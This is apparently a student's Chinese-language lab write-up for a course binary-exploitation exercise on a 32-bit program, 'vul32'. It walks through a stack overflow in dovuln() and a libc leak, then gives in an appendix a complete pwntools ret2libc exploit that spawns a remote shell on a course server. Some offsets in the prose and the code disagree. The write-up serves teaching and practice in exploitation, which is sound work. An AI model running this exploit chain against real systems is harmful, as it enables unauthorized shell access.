



# Lab1 - vul32

## 环境配置

在 Windows 11 PC 上安装 IDA 7.7，配合服务器 Ubuntu 20.04.5 LTS 64 位，使用 gdb 调试。

## 安全措施检查

使用`checksec`检查目标程序的安全性，

```shell
checksec --format=json --file=./vul32/vul32
```

得到如下结果，

```json
{ 
  "./vul32/vul32": { 
    "relro":"partial",
    "canary":"yes",
    "nx":"yes",
    "pie":"no",
    "rpath":"no",
    "runpath":"no",
    "symbols":"yes",
    "fortify_source":"yes",
    "fortified":"0",
    "fortify-able":"2" 
  } 
}
```

## 分析过程

使用 IDA 打开 vul32 可执行程序，使用 F5 将可执行程序 decompile 成 C Pseudocode. 能在左侧 Functions 栏中看到各个函数的信息，找到其中的 `main()` 函数作为入口。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}
```

依次查看调用的各个函数，发现其中漏洞代码出现在 `dovuln()` 函数中，对其进行 decompile.

```c
int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h] BYREF
  char v3[51]; // [esp+5h] [ebp-43h] BYREF
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 ) // LF/NL(Line Feed/New Line)
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```

分析以上代码，发现可以利用 `while(1)` 实现输入读入的过程，不检查输入长度，只依赖检查输入字符是不是换行符 `LF/NL(Line Feed/New Line)(ASCII #10)`结束输入。因此可以利用缓冲区溢出漏洞，覆盖返回地址，实现任意代码执行。

根据 IDA 的注释，同时参考栈的结构，可以发现用于保存输入字符的数组`v3` 如果发生溢出，可以影响到变量`v4`，而`v4`控制着下一个字符在`v3`中的 offset 量，因此我们可以得到如下攻击思路，

1. 构造恶意输入，导致数组`v3`溢出覆盖变量`v4`；
2. 通过修改`v4`的值，控制下一个字符的 offset 量，使得下一个字符覆盖返回地址，而根据栈的结构，**返回地址位于`ebp`上方的 4 Bytes**；
3. 攻击目标是通过调用`libc`的函数，在目标机器上执行`system('\bin\sh')`指令；

使用如下代码在 `vul32` 中查找字符串`/bin/sh`，未能查找到，因此需要在`libc`中查找，在 `0x0015912b` 处找到。

```shell
$ ROPgadget --binary vul32/vul32 --string '/bin/sh'
Strings information
============================================================
```

```shell
$ ROPgadget --binary vul32/libc.so.6 --string '/bin/sh'
Strings information
============================================================
0x0015912b : /bin/sh
```

因此，我们需要在`libc`中同时找到`system`函数地址和`/bin/sh`字符串地址，以此拼接为恶意负载。

## 使用pwntools构造恶意负载

整体来说，攻击思路如下，

1. 构造恶意输入，导致数组`v3`溢出覆盖变量`v4`；
2. 通过修改`v4`的值，控制下一个字符的 offset 量，使得下一个字符覆盖返回地址，由于ASLR的存在，需要先通过`puts()`函数泄露`libc`基址，并让`puts()`函数返回到`main()`函数中，从而可以再次调用`dovuln()`函数；
3. 获取`libc`中`__libc_start_main()`地址，和上一步泄露的`libc`随机化的地址，计算出`libc`基址；
4. 获取`system`函数地址和`/bin/sh`字符串地址，加上`libc`基址，拼接为恶意负载；
5. 将恶意负载发送给服务端，触发漏洞，执行`system('\bin\sh')`指令；

在IDA中查看`dovuln()`相关的汇编指令，可以找到其入口地址和结束时调用`puts()`的地址，分别为`0x080485CB`和`0x08048641`，如下方两图所示，





因此可以在`gdb`中对此处打下断点，用于观察调用栈及寄存器情况。

启动`gdb`，并加载`vul32`，并在`dovuln()`函数入口处打下断点，如下，

```shell
$ gdb vul32/vul32
(gdb) b *0x080485CB
Breakpoint 1 at 0x80485cb
(gdb) b *0x08048641
Breakpoint 2 at 0x8048641
```

在 IDA 的分析中，我们可以知道 `v4` 位于 ebp - 0x10 处，`v3` 位于 ebp - 0x43处，因此我们需要覆盖 `v4` 的内容为 0x47，查 ASCII 表有 0x47 对应的字符为 `G`，因此我们需要构造 0x43 个 `A`，再加上 1 个 `G`，就可以继续修改返回地址了。

```python

在 Breakpoint 2 处，输入测试的字符串，如下，

```text
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGBBBBBBBBBBB
```

并查看调用栈 `x/32xw $esp`，如下图所示，



其中能看到对应 `A` 的 0x41，在一些字节后能看到我们输入的测试字符串 `B`（对应 0x42），说明我们的栈溢出攻击成功了。

随后使用 `pwntools` 完成如构造真实攻击负载、计算偏移地址、解析输出等功能，即完成了本次漏洞利用的全部过程，含有注释的代码如附录A所示。

## 附录A 完整的漏洞利用代码

```python
from pwn import *

# context.terminal = ['tmux', 'splitw', '-h']

# sh = process('./vul32/vul32')
# gdb.attach(sh)
sh = remote('cssc.vul337.team', 49294)

# sh = pwnlib.gdb.debug('./vul32/vul32') # not working, don't know why

vul32 = ELF('./vul32/vul32') # load the vul32 file
puts_plt = vul32.plt['puts'] # get the address of the puts function
libc_start_main_got = vul32.got['__libc_start_main'] # get the address of the __libc_start_main function
main = vul32.symbols['main'] # get the address of the main function

libc = ELF('./vul32/libc.so.6') # load the libc file
system_addr = libc.symbols['system'] # get the address of the system function in libc
binsh_addr = next(libc.search(b'/bin/sh')) # get the address of the "/bin/sh" string in libc

# create the payload 1, used to leak the address of the __libc_start_main function
payload = flat(['A' * 0x33, "G", puts_plt, main, libc_start_main_got])
sh.sendlineafter('Plz input something:\n', payload) # send the payload 1
sh.recv() # receive the output of the payload 1
sh.recv()

libc_start_main_addr_leak = u32(sh.recv()[1:5]) # starts with a "/n" character
# libc_start_main_addr_leak = u32(sh.recv()[len(flat(['A' * 0x33, "G"])) + 1:len(flat(['A' * 0x33, "G"])) + 5]) # this line is needed in local environment

libc_base = libc_start_main_addr_leak - libc.symbols['__libc_start_main'] # calculate the base address of libc

system_addr = libc_base + system_addr # calculate the address of the system function in libc
binsh_addr = libc_base + binsh_addr # calculate the address of the "/bin/sh" string in libc

payload = flat(['A' * 0x33, "G", system_addr, "bbbb", binsh_addr]) # create the payload 2, used to get the shell
sh.sendline(payload) # send the payload 2
sh.interactive() # get the shell
sh.close() # close the connection
```


## 附录B 各个函数的伪代码汇总

```c
/*  main() */
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}
```

```c
/*  dovuln() */
int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h] BYREF
  char v3[51]; // [esp+5h] [ebp-43h] BYREF
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```